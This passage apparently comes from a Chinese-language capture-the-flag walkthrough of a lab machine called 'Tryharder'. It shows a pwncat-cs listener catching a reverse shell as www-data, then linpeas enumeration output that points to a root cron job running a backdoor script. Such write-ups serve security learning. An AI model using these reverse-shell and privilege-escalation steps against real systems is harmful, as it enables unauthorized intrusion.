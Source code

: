 ![img](img/image_20250432-153254.png)

即可得到回连的 shell

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[15:31:31] Welcome to pwncat 🐈!
[15:32:09] received connection from 192.168.56.129:37582
[15:32:10] 192.168.56.129:37582: registered new host w/ db
(local) pwncat$ back
(remote) www-data@Tryharder:/var/www/html/74221/uploads/123$ whoami
www-data
```

尝试自动化分析提权路径

```bash
(remote) www-data@Tryharder:/tmp$ ./linpeas.sh
......
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
root         1  0.1  0.9 103840  9960 ?        Ss   03:05   0:02 /sbin/init
root       216  0.0  0.8  40488  8788 ?        Ss   03:05   0:01 /lib/systemd/systemd-journald
root       238  0.0  0.4  22060  4920 ?        Ss   03:05   0:00 /lib/systemd/systemd-udevd
root     14543  0.0  0.2  22060  2328 ?        S    03:34   0:00  _ /lib/systemd/systemd-udevd
systemd+   262  0.0  0.6  93080  6508 ?        Ssl  03:05   0:00 /lib/systemd/systemd-timesyncd
  └─(Caps) 0x0000000002000000=cap_sys_time
root       334  0.0  0.6  19304  6368 ?        Ss   03:05   0:00 /lib/systemd/systemd-logind
message+   335  0.0  0.4   8968  4348 ?        Ss   03:05   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
  └─(Caps) 0x0000000020000000=cap_audit_write
root       336  0.0  0.3 225820  3800 ?        Ssl  03:05   0:00 /usr/sbin/rsyslogd -n -iNONE
root       338  0.0  0.3   8824  3116 ?        Ss   03:05   0:00 /usr/sbin/cron -f
root     12777  0.0  0.2   9796  2804 ?        S    03:06   0:00  _ /usr/sbin/CRON -f
xiix     12778  0.0  0.0   2384   764 ?        Ss   03:06   0:00      _ /bin/sh -c /srv/backdoor.py
```